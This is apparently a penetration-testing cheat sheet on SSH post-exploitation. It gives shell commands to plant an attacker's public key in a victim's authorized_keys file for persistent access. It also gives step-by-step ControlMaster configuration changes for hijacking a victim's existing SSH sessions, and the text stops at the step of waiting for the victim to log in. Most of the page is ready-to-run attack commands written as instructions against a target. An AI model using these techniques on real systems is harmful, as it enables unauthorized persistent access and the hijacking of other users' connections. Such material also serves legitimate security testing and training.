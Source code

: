 # SSH Persistence

```bash
# Execute on attacker system
# Complete with default values
ssh-keygen

# echo the contents of the generated public key, into the authorized keys file on the remote system
echo "ssh-ed25519 AAAAC3NzaC1lZ== kali@kali" >> /home/user/.ssh/authorized_keys

# Then freely SSH into the target system as the user specified above
ssh user@10.10.10.100
```


# SSH Hijacking using ControlMaster

OpenSSH's `ControlMaster` feature allows multiple SSH sessions to share a single network connection. This can be exploited to hijack existing SSH connections if you have shell access to the target machine.

## Step-by-Step Process:

1. **Gain Shell Access**:
   - Obtain shell-level access to the target machine.

2. **Configure ControlMaster**:
   - Access the victim's home directory and create or modify the `~/.ssh/config` file.
   - Add the following configuration:

     ```bash
     Host *
         ControlMaster auto
         ControlPath ~/.ssh/master-socket/%r@%h:%p
         ControlPersist yes
     ```

   - Ensure the directory `~/.ssh/master-socket/` exists. If not, create it:
     
     ```bash
     mkdir -p ~/.ssh/master-socket/
     ```

3. **Set Correct Permissions**:
   - Secure the configuration file:
     
     ```bash
     chmod 600 ~/.ssh/config
     ```

4. **Wait for Victim Login**:
   - Wait for the victim to establish an SSH connection to another server.
